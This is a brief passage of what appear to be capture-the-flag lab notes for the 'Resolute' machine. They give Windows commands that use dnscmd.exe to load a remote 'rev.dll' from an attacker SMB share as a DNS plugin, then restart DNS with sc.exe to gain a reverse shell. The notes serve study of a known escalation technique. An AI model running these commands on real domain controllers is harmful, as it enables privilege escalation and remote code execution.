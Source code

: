 Above doesn't work well. Because it needs to specify the DNS server name. Here is the \\resolute as from nmap, scans and bloodhound. Also worth to try the `127.0.0.1` or localhost
##### Clean up by del the share
`net use /d \\10.10.16.13\share`
```
net use \\10.10.16.13\share
dnscmd.exe /config /serverlevelplugindll \\10.10.16.13\share\rev.dll
sc.exe \\resolute stop dns
sc.exe \\resolute start dns
```
